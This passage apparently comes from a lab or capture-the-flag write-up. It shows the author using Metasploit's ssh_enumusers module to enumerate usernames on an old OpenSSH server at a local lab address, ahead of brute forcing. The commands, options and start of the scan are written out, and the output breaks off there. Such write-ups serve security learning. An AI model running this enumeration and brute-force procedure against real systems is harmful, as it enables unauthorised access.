 ### Enumeration of users

I glance over the result from the metasploit search I did earlier to find something that would help with the brute forcing and see `auxiliary/scanner/ssh/ssh_enumusers`.
Having a set of valid users will really help speed up the brute forcing so I check if it is applicable (edited for brevity):

    msf > info auxiliary/scanner/ssh/ssh_enumusers 

    Name: SSH Username Enumeration
    Module: auxiliary/scanner/ssh/ssh_enumusers
    License: Metasploit Framework License (BSD)
    Rank: Normal

    Description:
      This module uses a time-based attack to enumerate users on an 
      OpenSSH server. On some versions of OpenSSH under some 
      configurations, OpenSSH will return a "permission denied" error for 
      an invalid user faster than for a valid user.

    References:
      http://cvedetails.com/cve/2006-5229/
      http://www.osvdb.org/32721
      http://www.securityfocus.com/bid/20418


This doesn't tell me the affected version so I check the security focus [link](http://www.securityfocus.com/bid/20418) found under references. 
One of the affected versions is the one the target are running, sweet!

    msf > use auxiliary/scanner/ssh/ssh_enumusers 
    msf auxiliary(ssh_enumusers) > show options

    Module options (auxiliary/scanner/ssh/ssh_enumusers):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       Proxies                     no        Use a proxy chain
       RHOSTS                      yes       The target address range or CIDR identifier
       RPORT      22               yes       The target port
       THREADS    1                yes       The number of concurrent threads
       THRESHOLD  10               yes       Amount of seconds needed before a user is considered found
       USER_FILE                   yes       File containing usernames, one per line

    msf auxiliary(ssh_enumusers) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_enumusers) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/default_users_for_services_unhash.txt
    USER_FILE => /usr/share/metasploit-framework/data/wordlists/default_users_for_services_unhash.txt
    msf auxiliary(ssh_enumusers) > run

    [*] 192.168.56.103:22 - SSH - Checking for false positives
    [*] 192.168.56.103:22 - SSH - Starting scan
    .
    .
    .
